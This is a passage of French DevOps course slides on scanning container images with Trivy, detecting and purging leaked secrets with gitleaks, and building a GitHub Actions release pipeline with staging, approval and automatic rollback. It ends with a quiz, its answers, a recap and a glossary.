| `--exit-code 1` | échouer s'il reste quelque chose : c'est ce qui **bloque** le pipeline |
| `--format table / sarif / cyclonedx` | lisible / onglet *Security* de GitHub / **SBOM** |

- Scanne les paquets de l'OS (Alpine, Debian…) **et** des langages (`package-lock.json`, `node_modules`)
- Aussi : `trivy fs` (dépôt), `trivy config` (Dockerfile, Compose, Terraform : mauvaises configurations)

---

## Trivy dans `release.yml` : scanner avant de publier

```yaml
- uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc # v7.4.0
  with: { context: ./front, load: true, push: false, tags: "${{ env.IMAGE }}:${{ env.TAG }}" }

- uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25 # v0.36.0
  with:
    image-ref: ${{ env.IMAGE }}:${{ env.TAG }}
    severity: CRITICAL
    ignore-unfixed: true
    exit-code: "1"
    format: table
    output: trivy-front.txt

- if: ${{ !cancelled() }}
  run: cat trivy-front.txt >> "$GITHUB_STEP_SUMMARY"

- run: docker push "$IMAGE:$TAG"          # l'image publiée EST celle qui a été scannée
```

> Attendez-vous à un premier run **rouge** cet après-midi : `nginx:1.27-alpine` et le `npm` embarqué dans `node:20-alpine` ont des CVE critiques corrigées.

---

## 🎬 Démo — gitleaks et Trivy

`demos/demo-trivy-gitleaks/demo.sh` — 15 min

1. Un jeton dans `config.env`, `git add` → le hook **refuse**
2. `git commit --no-verify` puis `git rm` → disparu de l'arbre…
3. … retrouvé par le scan de l'historique (commit, auteur, date)
4. Trivy : `nginx:1.27-alpine` (3 CRITICAL) vs `1.29-alpine` → `exit=1`
5. `trivy fs` sur le `package-lock.json` du starter
6. `git ls-remote` : tag vs SHA

---

## 🧪 Exercice 3.3 — Le secret caché dans l'historique

`exercices/jour3/03-secret-historique.md` — **30 min**

```bash
bash exercices/jour3/secret-historique-setup.sh     # crée ./notif-service
```

1. **Détecter** à la main (`git log -p`, `-S`, `--diff-filter=D`), puis avec gitleaks
2. **Réagir** : ordonner 6 actions et justifier la première
3. **Purger** : `git filter-repo --invert-paths --path .env --replace-text remplacements.txt`
4. **Empêcher** : `gitleaks git --pre-commit --staged`

> La question qui compte : pourquoi la **rotation** passe-t-elle avant la purge ?

🧪 Bonus 3.4 : `04-workflow-a-durcir.md` (9 failles dans un workflow de prévisualisation)

---

<!-- _class: lead -->
# 🛠️ TP fil rouge — Étape 2 : déploiement continu

---

## 🛠️ TP étape 2 — la feuille de route

`tp/fil-rouge-taskflow/etape2-cd.md` — **3h30**

| Partie | Durée | Livrable |
|---|---|---|
| **A** Déploiement manuel | 1h | fichiers de déploiement en PR, hook gitleaks, `~/taskflow-prod` en HTTPS, sauvegarde restaurée |
| **B** Pipeline de release | 1h30 | runner, environments `staging` / `production`, `release.yml`, premier run (rouge puis vert), lead time mesuré |
| **C** Rollback et Dependabot | 45 min | `dependabot.yml`, release cassée **stoppée au staging**, rollback en un clic, roll forward, rollback auto en prod |

> Moins de pas-à-pas qu'hier : un cahier des charges, des indices, la solution en dernier recours. **Lisez avant de copier.**

---

## `release.yml` : le cahier des charges en une slide

| # | Exigence |
|---|---|
| 1 | `push` sur `main` + `workflow_dispatch` (`tag`, `environment`) |
| 2 | `permissions: {}` puis le strict nécessaire par job |
| 3 | `prepare` : tag, owner, plan ; valide les entrées |
| 4 | `images` [api, front] : build → **Trivy** → push |
| 5 | `deploy-staging` : runner du lab, smoke test **avec la version** |
| 6 | `deploy-production` : approbation, sauvegarde, smoke test **TLS vérifié**, rollback auto |
| 7 | rollback : build sauté, un seul environnement |
| 8 | un déploiement à la fois par environnement (`concurrency`) |
| 9 | actions tierces épinglées par **SHA** |

```bash
docker run --rm -v "$PWD":/repo -w /repo docker.io/rhysd/actionlint:latest -no-color
```

---

## Deux subtilités qui font perdre une heure

**1. Un job dont un `needs` a été sauté est sauté… sauf si on le dit**

```yaml
if: >-
  !cancelled()
  && needs.prepare.outputs.staging == 'true'
  && (needs.images.result == 'success' || needs.images.result == 'skipped')
```

**2. Les variables du runner ne sont pas dans le contexte `env`**

```yaml
- run: cd "$STAGING_DIR" && ./deploy.sh "$TAG"          # ✅ variable du processus
- working-directory: ${{ env.STAGING_DIR }}             # ❌ vide : env = ce que le YAML déclare
```

Et un troisième pour la route : depuis le conteneur du runner, `localhost` est **le runner** → `host.docker.internal`.

---

## Partie C : prouver qu'on sait revenir en arrière

```nginx
# front/nginx.conf : une faute de frappe qui passe lint et tests
set $api_upstream http://api:3001;
```

| Étape | Ce que vous devez observer |
|---|---|
| merge | `images` vert, **staging rouge** (502 sur `/health`), **production sautée** |
| rollback staging | `gh workflow run release.yml -f tag=<précédent> -f environment=staging` : build sauté, staging vert |
| roll forward | `git revert`, PR, merge : nouvelle version saine jusqu'en prod |
| filet de la prod | forcer le SHA cassé en production : smoke test KO → **rollback automatique**, job rouge |

> Le staging a fait exactement son travail : l'utilisateur final n'a rien vu.

---

<!-- _class: lead -->
# Débrief, quiz et récap

---

## Débrief (15 min)

- Votre **lead time** du merge à la prod : combien ? où passe le temps (build, scan, attente d'approbation) ?
- Que faudrait-il **avant** de retirer l'approbation (déploiement continu) ?
- Le rollback par tag améliore quelle métrique DORA ?
- Listez tout ce qui, dans votre pipeline, relève de la **sécurité** : vous devriez en trouver au moins 8

---

## Quiz du jour 3

1. Quelle est la différence entre **livraison continue** et **déploiement continu** ? Comment passe-t-on de l'une à l'autre dans votre dépôt ?
2. Pourquoi ne reconstruit-on pas l'image entre staging et production ? Pourquoi ne déploie-t-on pas `latest` ?
3. Une release renomme une colonne. Pourquoi un rollback risque-t-il de casser la production, et comment l'éviter ?
4. Un jeton a été commité puis « supprimé » il y a une semaine, le dépôt est public. Quelle est votre **première** action, et pourquoi ?
5. Citez trois mesures de `release.yml` qui protègent contre une **attaque de la supply chain** ou du **pipeline**.

---

<!-- _class: small -->

## Quiz du jour 3 — Réponses

1. Livraison : chaque version **peut** partir en prod, un humain décide ; déploiement : elle **part** sans humain. Dans le dépôt : retirer les *required reviewers* de l'environment `production`
2. *Build once, deploy many* : on déploie **exactement** l'artefact testé et scanné ; `latest` est mutable, on ne sait plus quelle version tourne ni à quoi revenir
3. Après rollback, l'ancienne version tourne sur la **nouvelle** base (colonne absente). *Expand/contract* : ajouter, double écriture, basculer la lecture, supprimer en dernier
4. **Révoquer / faire tourner** le jeton : il est compromis (forks, clones, robots) ; la purge (`git filter-repo`) vient ensuite et ne suffit jamais seule
5. Actions épinglées par **SHA** ; `permissions: {}` + droits minimaux par job ; scan **Trivy** bloquant avant publication ; entrées passées par `env` et validées ; `docker logout` ; approbation et branche `main` sur `production` ; Dependabot

---

<!-- _class: small -->

## Récap du jour 3

| Notion | À retenir |
|---|---|
| Livraison vs déploiement continu | même chaîne ; la différence est **une décision humaine** avant la prod |
| Build once, deploy many | une image par commit (SHA), promue de staging à prod ; seule la **config** change |
| 12-factor | config dans l'environnement, parité dev/prod, logs sur stdout |
| Stratégies | recreate, rolling, blue/green, canary, feature flags : choisir selon coupure tolérée, ressources, métriques |
| Retour arrière | rollback d'abord (minutes), roll forward ensuite ; migrations **expand/contract** |
| Runner self-hosted | pull, rien à ouvrir ; socket Docker = root : garde-fous obligatoires |
| Secrets | jamais dans Git ; **rotation d'abord** ; gitleaks en pre-commit et en CI |
| Supply chain | lockfile, `npm audit`, Dependabot, actions **épinglées par SHA**, permissions minimales, Trivy |

**Demain** : le staging décrit en code (OpenTofu), et on **voit** enfin ce qui tourne (Prometheus, Grafana, alertes).

---

## Glossaire du jour 3

<!-- _class: small -->

| Terme | Définition |
|---|---|
| **Livraison continue** | chaque changement validé est prêt à partir en prod ; un humain déclenche |
| **Déploiement continu** | chaque changement validé part en prod sans intervention humaine |
| **Artefact immuable** | produit du build (ici une image) jamais modifié, identifié par un tag ou un digest |
| **Staging** | environnement de pré-production, le plus proche possible de la prod |
| **Smoke test** | vérification rapide qu'une version déployée répond vraiment |
| **Blue/green · canary** | deux environnements avec bascule · part progressive du trafic sur la nouvelle version |
| **Feature flag** | interrupteur qui active une fonctionnalité déjà déployée |
| **Rollback · roll forward** | revenir à la version précédente · corriger et livrer une nouvelle version |
| **Expand / contract** | migration de base en plusieurs releases, chacune compatible avec la précédente |
| **Runner self-hosted** | machine à vous qui exécute des jobs GitHub Actions |
| **Environment GitHub** | cible de déploiement avec approbation, branches autorisées, secrets propres |
| **Supply chain** | tout ce qui entre dans votre build sans que vous l'ayez écrit |
| **SCA** | analyse des dépendances (npm audit, Dependabot, Trivy) |
| **SBOM** | inventaire des composants d'un artefact (CycloneDX, SPDX) |
